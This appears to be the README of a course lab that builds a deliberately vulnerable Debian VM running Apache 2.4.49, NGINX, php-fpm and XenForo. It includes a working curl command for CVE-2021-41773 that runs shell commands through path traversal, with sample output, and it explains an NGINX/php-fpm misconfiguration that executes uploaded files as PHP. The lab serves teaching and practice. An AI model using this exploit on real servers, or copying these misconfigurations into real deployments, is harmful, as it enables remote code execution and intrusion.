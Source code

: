 # Files in this repo

## setup.sh

This file is intended to be executed as root on the guest VM. Do not run it on your host OS; it will do bad things. You can (and perhaps should) run this file line by line since it does no error checking.

This script will:
* Install sudo, build-essential, and the build dependencies for apache2
* Install NGINX, MariaDB, and php-fpm
* Add a default 404 page, abronsius.cpsc4270.local, and alfred.cpsc4270.local to NGINX
* Create the user `abronsius` (if not existing) and add it to the sudoers list
* Download, build, and install apache2 2.4.49 at `/home/abronsius/apache2`
* Configure apache2 to serve files and enable cgi-bin
* Download, configure, and install XenForo at alfred.cpsc4270.local
* ... more coming later

TODO:
* Download, install, configure phpMyAdmin (or other software) for SQL injection
  * Find a way to tie-in SQL injection to springboard another attack
* Crete an actual page for abronsius.cpsc4270.local.
  * Currently cgi-bin hosts a cal.sh script

CONSIDER:
* Implement https://github.com/Balasys/dheater for DoS

# VM OS

The OS is Debian 11.1 Bullseye but any Debian-based OS should also work. I don't recommend deviating from this choice in case there are compatibility issues, and any non-Debian OS will require installing and configuring everything manually. Download via [Torrent](https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-11.1.0-amd64-netinst.iso.torrent) or directly via [ISO](https://cdimage.debian.org/debian-cd/current/amd64/iso-cd/debian-11.1.0-amd64-netinst.iso). The sha256sum of the ISO is `8488abc1361590ee7a3c9b00ec059b29dfb1da40f8ba4adf293c7a30fa943eb2` to double check that you've obtained the correct file.

I do not recommend installing any desktop environment (GUI) because it is not necessary and will waste resources. You must install SSH server and connect to the VM with an SSH client. Linux and OSX come standard with an SSH client. Windows might have its own native client, but [PuTTY](https://the.earth.li/~sgtatham/putty/latest/w64/putty-64bit-0.76-installer.msi) should work if not.


# VM Configuration

The VM can be installed using any software (qemu/kvm, VirtualBox, VMWare, etc.)
The only requirement is network access with its own IP address. This can (and should) be a totally local network. The VM will contain several serious security flaws and therefore should not be available over the Internet.

# Exploits

## Exploit Target 1: Apache

### Exploit 1: CVE-2021-41773

This vulnerability is trivial to exploit and results in directory traversal, local file inclusion, and remote code execution. This exploit takes advantage of a new form of URL normalisation added in this version of apache2 which did not appropriately check against URL-encoded paths, which in this instance allows moving up from the cgi-bin directory and executing arbitrary code on the remote server. This line brings the directory up to `/` and then executes `/bin/sh` and passes `echo;ls -alh /etc/passwd;whoami;uname -a` to the opened shell.

Remote code execution:
```sh
curl --path-as-is "http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo;ls -alh /etc/passwd;whoami;uname -a"
```

Example output:
```
-rw-r--r-- 1 root root 1.6K Oct 23 23:38 /etc/passwd
abronsius
Linux dbsec-vm-main 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
```
## Exploit Target 2: NGINX+php-fpm+UGC

### Exploit 2: Misconfigured NGINX fastcgi_pass for PHP

This exploit results in RCE on the php-fpm process (running as www-data as currently configured) which can then be leveraged to connect directly to the locally running apache server running as the abronsius user and execute another RCE to obtain access to that user's files.

The exploit allows executing arbitrary files as PHP because NGINX has been poorly configured to pass any URL ending in .php to php-fpm, and php-fpm has been configured to allow the execution of files not ending in .php via `security.limit_extensions`. This exploit would also work on earlier versions of PHP before this option was added.

If a user uploads a file which gets saved at a publicly accessible location, it could be executed by browsing to a URL such as `http://alfred.cpsc4270.local/internal_data/attachments/0/2-2dab5576695298f017741b114f67c3f1.data/oops.php`. This works because NGINX was not configured to verify that such a file exists, and PHP will happily read from left to right until it finds a file that exists and execute it, so the trailing /oops.php isn't considered for this purpose.
